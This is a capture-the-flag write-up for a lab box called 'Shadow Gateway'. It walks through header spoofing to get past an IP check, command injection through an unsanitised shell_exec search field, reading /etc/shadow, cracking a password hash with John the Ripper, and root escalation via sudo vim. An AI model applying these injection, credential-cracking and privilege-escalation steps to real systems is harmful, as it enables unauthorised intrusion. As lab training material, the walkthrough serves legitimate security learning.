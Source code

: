 ## Shadow Gateway

## Description
```
We got intel about the internal-network of a notorious hacker group. 
Their network, accessible only from '192.168.1.0/24', has intercepted crucial documents, including a CTF flag. 

Can you recover the flag?
```

## Flag Format
```
TH{UUID}
```

Starting off with recon you should detect 2 open ports. <br/>
```sh
kali@kali nmap -sV $IP

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-23 16:33 CET
Nmap scan report for $IP

Host is up (0.00031s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
80/tcp  open  http    nginx 1.25.2
MAC Address: 00:0C:29:00:DE:DE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.26 seconds
```

Taking a look at the website. <br/>
![Alt text]()

Seeing this error message and looking at the description, anybody should know that this either means spoofing your IP address to `192.168.1.101` or adding some kind of request header to `192.168.1.101`. <br/>

Knowing that request headers are easier to forge you should open the website in Burp Suite or any other utility. <br/>
Using the `Intercept` option you can reload the webpage. <br/>
Now you add the following reuqest-header `X-Forwarded-For: 192.168.1.101`. <br/>

Seems like this worked. <br/>
![Alt text]()

Inputing just the letter `a` we receive the following output. <br/>
![Alt text]()

After trying around some things you could maybe input `ls -R` which grants you the result below. <br/>
```php
index.php:    $searchResults = shell_exec("ls /opt/filestash/ | grep " . $userInput);
index.php:    } elseif (isset($_POST["crypto_code"])) {
```

This should let you know that in the function below `$userInput` is basically the input in the searchbar. <br/>
```php
shell_exec("ls /opt/filestash/ | grep " . $userInput)
```

This also gets you the information that you can basically do a command injection using shell escape. <br/>

To do this we can simply add `|`. <br/>
```sh
abc | whoami

www-data
```

Seems like we got a working command execution. <br/>
After some trying around you should be able to find that you can read `/etc/shadow`. <br/>
```sh
abc | cat /etc/shadow

root:*:19619:0:99999:7:::
daemon:*:19619:0:99999:7:::
bin:*:19619:0:99999:7:::
sys:*:19619:0:99999:7:::
sync:*:19619:0:99999:7:::
games:*:19619:0:99999:7:::
man:*:19619:0:99999:7:::
lp:*:19619:0:99999:7:::
mail:*:19619:0:99999:7:::
news:*:19619:0:99999:7:::
uucp:*:19619:0:99999:7:::
proxy:*:19619:0:99999:7:::
www-data:*:19619:0:99999:7:::
backup:*:19619:0:99999:7:::
list:*:19619:0:99999:7:::
irc:*:19619:0:99999:7:::
_apt:*:19619:0:99999:7:::
nobody:*:19619:0:99999:7:::
h4ckt1v1st:$y$j9T$6RYZKUhhvv5rI6/k47xrK1$iODN9FWT5OKOwMzxVctjnjqh1mRZrl5rzu3ZOCCx7zB:19684:0:99999:7:::
systemd-network:!*:19684::::::
systemd-timesync:!*:19684::::::
messagebus:!:19684::::::
sshd:!:19684::::::
```

Getting this we can use some linux utility to crack the hash of the user `h4ckt1v1st`. <br/>
After copying `$y$j9T$6RYZKUhhvv5rI6/k47xrK1$iODN9FWT5OKOwMzxVctjnjqh1mRZrl5rzu3ZOCCx7zB` to `hash.txt` I used `john the ripper` to bruteforce the hash. <br/>
```sh
kali@kali john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
lekkerding       (?)     
1g 0:00:00:19 DONE (2023-11-23 16:35) 0.05104g/s 514.5p/s 514.5c/s 514.5C/s sandara..clarke
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> [!NOTE]
> `$y` at the beginning of the hash should indicate that the following format is required for cracking `--format=crypt`.
> There are different utilities like `hash-identifier` to identify which hash is being used.

After getting the password `lekkerding` I was able to connect to the machine using `ssh` on my kali. <br/>
```sh
kali@kali ssh h4ckt1v1st@$IP                        
------------------------------------
h4ckt1v1st@8dd46fe2e6ff:~$ whoami
h4ckt1v1st
```

After getting the shell you should try some basic linux privilege escalation. <br/>
```sh
h4ckt1v1st@8dd46fe2e6ff:~$ sudo -l
Matching Defaults entries for h4ckt1v1st on 8dd46fe2e6ff:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User h4ckt1v1st may run the following commands on 8dd46fe2e6ff:
    (root) NOPASSWD: /usr/bin/vim
```

using `sudo -l` you can see that you got elevated privileges for using `vim`. <br/>
You can now go to [GTFOBins](https://gtfobins.github.io/) to check for privilege escalation using the `vim` binary. <br/>

On the website you should be able to find a working exploit to get a shell using `vim`. <br/>
```sh
h4ckt1v1st@8dd46fe2e6ff:~$ sudo vim -c ':!/bin/sh'

$ whoami
root
```

Now that we are `root` we should easily be able to find the flag in `/root/goldnugget.txt`. <br/>
```sh
$ ls -la /root/
total 24
drwx------ 1 root root 4096 Nov 23 14:54 .
drwxr-xr-x 1 root root 4096 Nov 23 14:54 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Nov 23 14:54 .ssh
-rw-r--r-- 1 root root   37 Nov 23 14:54 goldnugget.txt

$ cat /root/*
a7960b0d-505b-43de-94d2-55b2376abad5
```

This concludes this challenge. 